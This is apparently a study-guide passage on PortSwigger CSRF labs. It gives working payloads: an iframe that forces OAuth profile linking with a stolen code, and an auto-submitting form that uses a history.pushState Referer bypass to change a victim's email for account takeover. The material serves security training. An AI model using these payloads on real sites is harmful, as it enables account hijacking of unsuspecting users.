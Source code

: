 >Cross-Site Request Forgery vulnerability allows an attacker to force users to perform actions that they did not intend to perform. This can enable attacker to change victim email address and use password reset to take over the account.  
  
### OAuth  

>oAuth linking exploit server hosting iframe, then deliver to victim, forcing user to update code linked.  

![csrf](images/csrf.png)  

>Intercepted the GET /oauth-linking?code=[...]. send to repeat to save code. **Drop** the request. Important to ensure that the code is not used and, remains valid. Save on exploit server an iframe in which the ```src``` attribute points to the URL you just copied.  

```html
<iframe src="https://TARGET.net/oauth-linking?code=STOLEN-CODE"></iframe>
```  

[PortSwigger Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)  
  
### Referer Validation CSRF  

>***Identify*** the change email function is vulnerable to CSRF by observing when the **Referer** header value is changed the response give message, `Invalid referer header`, and the email change is accepted when the referrer value contains the expected target domain somewhere in the value.  

![identify csrf referer header check](images/identify-csrf-referer-header-check.png)  

>Adding original domain of target and append `history.pushState('', '', '/?TARGET.net');` to the **Referer header** in the form of a query string, allow the change email to update.  

```html
Referrer-Policy: unsafe-url
```  

>**Note:** Unlike the normal Referer header spelling, the word **"referrer"** must be spelled correctly in the above `head` section of the exploit server.  

![Referer csrf](images/referer-csrf.png)  

>Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the **history.pushState()** function includes a query string with target URL.  

```html
<html>
  <!-- CSRF PoC -  CSRF with broken Referer validation -->
  <body>
	<script>
		history.pushState('', '', '/?TARGET.net');
	</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```  
